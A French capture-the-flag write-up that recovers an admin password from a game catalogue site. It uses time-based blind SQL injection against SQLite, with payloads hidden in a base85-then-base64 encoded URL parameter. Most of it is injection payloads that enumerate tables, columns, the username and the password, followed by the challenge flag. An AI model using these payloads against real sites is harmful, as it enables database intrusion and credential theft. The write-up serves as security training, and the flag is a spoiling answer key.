


# Titre : Catalogue de jeux II
## Description
Nous avons perdu le mot de passe de l'administrateur de notre catalogue de jeux, pouvez-vous le retrouver ?
## Solution
On arrive sur ce site web :


On remarque qu'il y a un onglet `Catégories` on clique dessus :





Dans l'url on remarque l'apparition d'un paramètre `?cat=MSY`. 
**MSY** correspond au chiffre **2**, sauf qu'il y a eu un chiffrement en **base85** puis **base64**.

On peut utiliser cyberchef pour trouver ceci :


On va voir si ce paramètre est vulnérable à une SQLi :
On chiffre notre payload : 2' avec base85 et base64 :

Et on l'envoie :

Rien ne semble ce passer.

### Trouver le point d'injection
payload :
```sql
2' AND randomblob(1000000000)=0 --
```
soit :
```sh
MSsrMjE6Li00RkA7XVVvRC43PSJAT05yYjBKRzE3MEpHMTcuNlRALS9NLQ
```
On remarque que la requete est passé car la page met du temps a charger. On a trouvé notre point d'injection.

### Identifier la table :
Pour identifier la table utilisateurs on doit y aller en tatonnant :
```sql
2' AND (SELECT randomblob(1000000000) FROM sqlite_master where substr(name,1,1)="u") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzUUVHVD8yQVJCOl9GKih1NitFcUwxRWItQTdGXmZFNkVbWWc2RC5QN1EvMjhTOiwnPihZKz4jLw
```
On connait maintenant la première lettre de la table.
On continu :
```sql
2' AND (SELECT randomblob(1000000000) FROM sqlite_master where substr(name,2,1)="s") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzUUVHVD8yQVJCOl9GKih1NitFcUwxRWItQTdGXmZFNkVbWWc2RC5QN1IvMjhTOiwnK3FXKz4jLw
```
On continu jusqu'a trouver le nom complet de la table :
```sql
2' AND (SELECT randomblob(1000000000) FROM sqlite_master where name="users") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzUUVHVD8yQVJCOl9GKih1NitFcUwxRWItQTJAO1RSPSwnQHM8RWNXRVIrPiMv
```
Notre requête passe, on a donc le bon nom de table.

### Identification des colonnes
Pour identifier les colonnes de la table `users` on doit y aller en tatonnant :
```sql
2' AND (SELECT randomblob(1000000000) FROM PRAGMA_TABLE_INFO("users") where substr(name,1,1)="u") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzLjtGKmZJNiFtU1c2OzBnVDhQVmBOLW1FZVRBVERpOS4zTmhKQVREPylGKjFyNUZFL2RJQDtUUiwwZT4lLjRYLCJtLjNMMm8
```
On connait la première lettre de la colonne.
On continu :
```sql
2' AND (SELECT randomblob(1000000000) FROM PRAGMA_TABLE_INFO("users") where substr(name,2,1)="s") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzLjtGKmZJNiFtU1c2OzBnVDhQVmBOLW1FZVRBVERpOS4zTmhKQVREPylGKjFyNUZFL2RJQDtUUiwxK1kuLzRYK3FrLjNMMm8
```
On continu jusqu'a trouver le nom complet des colonnes :

```sql
2' AND (SELECT randomblob(1000000000) FROM PRAGMA_TABLE_INFO("users") where name="username") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzLjtGKmZJNiFtU1c2OzBnVDhQVmBOLW1FZVRBVERpOS4zTmhKQVREPylESUlCbjRYLCNpQVREWnNELk9uPys-Iy8
```

```sql
2' AND (SELECT randomblob(1000000000) FROM PRAGMA_TABLE_INFO("users") where name="password") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzLjtGKmZJNiFtU1c2OzBnVDhQVmBOLW1FZVRBVERpOS4zTmhKQVREPylESUlCbjRYK2lSRil1UERFYiRAQys-Iy8
```

On a donc notre table `users` :

nomColonne |
:---|
username |
password |

### Identification du nom d'utilisateur de l'administrateur
```sql
2' AND (SELECT randomblob(1000000000) FROM users where substr(username,1,1)="a") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzU0YoS0I1K0VxTDFFYi1BN0ZeZkU2RVtaJ09BVERac0QuUDdRLzI4UzosJTJaRSs-Iy8
```
On continu :
```sql
2' AND (SELECT randomblob(1000000000) FROM users where substr(username,2,1)="d") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzU0YoS0I1K0VxTDFFYi1BN0ZeZkU2RVtaJ09BVERac0QuUDdSLzI4UzosJU1sSCs-Iy8
```
Et on arrive a identifier que le nom d'utilisateur est `admin`.

### Identification du mot de passe de l'administrateur
```sql
2' AND (SELECT randomblob(1000000000) FROM users where substr(password,1,1)="U") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzU0YoS0I1K0VxTDFFYi1BN0ZeZkU2RVtZbThGKXVQREViJF5VLzI4UzosI29nOSs-Iy8
```
On continu : 
```sql
2' AND (SELECT randomblob(1000000000) FROM users where substr(password,2,1)="G") --
```
soit :
```sh
MSsrMjE6Li0zUTthakFLNlc-MUtAO11Vb0QuNz0iQE9OcmIwSkcxNzBKRzE3LjNNKVg6SkRzU0YoS0I1K0VxTDFFYi1BN0ZeZkU2RVtZbThGKXVQREViJF5WLzI4UzosIkVoKys-Iy8
```
Et on arrive a identifier que le mot de passe de l'admin est : `UGFzc1NxbGlCbGluZA==`

Il semble être chiffré en base64, on le décode :
```sh
echo "UGFzc1NxbGlCbGluZA==" | base64 -d
PassSqliBlind
```

le mot de passe de l'admin est donc : `PassSqliBlind`

### Connexion en tant qu'admin

Maintenant qu'on connait le nom d'utilisateur et le mot de passe on peut se connecter sur le site en tant qu'admin :





Le flag est donc : `NHM2I{0a1f8a66-749e-4c88-916f-f4aec55d1175}`
